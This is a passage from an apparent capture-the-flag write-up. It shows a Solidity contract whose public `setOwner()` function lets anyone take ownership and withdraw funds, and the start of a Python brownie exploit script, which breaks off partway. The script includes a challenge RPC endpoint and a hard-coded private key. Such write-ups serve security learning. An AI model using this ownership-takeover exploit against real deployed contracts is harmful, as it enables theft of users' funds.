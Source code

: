 - If we look further there is function called `setOwner()` which is public, i.e. anyone can call it & the caller will be set to owner.

```js
 function setOwner() public {
        //Set the owner of the contract.
        owner = msg.sender;
    }
```

- So to solve the challenge we just have to call the `setOwner` function first then we can withdraw the fund by calling the `withdraw` function.

- That's what we are doing here in `hack.py` script

```py
#!/usr/bin/python3
from brownie import web3, VideoChallengeIntro, Setup, network
from scripts.deploy import deploy
from scripts.helpful_scripts import get_account
from scripts.get_data import get_values
from scripts.submit import submit
from colorama import Fore
from subprocess import run


# * colours
green = Fore.GREEN
red = Fore.RED
blue = Fore.BLUE
magenta = Fore.MAGENTA
reset = Fore.RESET


def print_colour(solved):
    if solved:
        print(f"{blue}Is complete: {green}{solved}{reset}")
    else:
        print(f"{blue}Is complete: {red}{solved}{reset}")


def hack(netwrk=False):
    # print(network)
    if netwrk != "mevsec":
        setup, _ = deploy()
        _, attacker = get_account()
    else:
        # RPC_URL, SETUP, PRIVATE_KEY, FLAG_ID = get_values()

        RPC_URL, SETUP, PRIVATE_KEY, FLAG_ID = (
            "http://ctf.mevsec.com:50662",
            "0x876807312079af775c49c916856A2D65f904e612",
            0xEDBC6D1A8360D0C02D4063CDD0A23B55C469C90D3CFBC2C88A015F9DD92D22B3,
            "e935b4c4545a1fb3cc6da0ef59a00f313d95e304c5ce1fe088ec52dcd9ff8c74",
        )

        try:
            run(
                [
                    "brownie",
                    "networks",
                    "modify",
                    "mevsec",
                    f"host={RPC_URL}",
                ],
                check=True,
```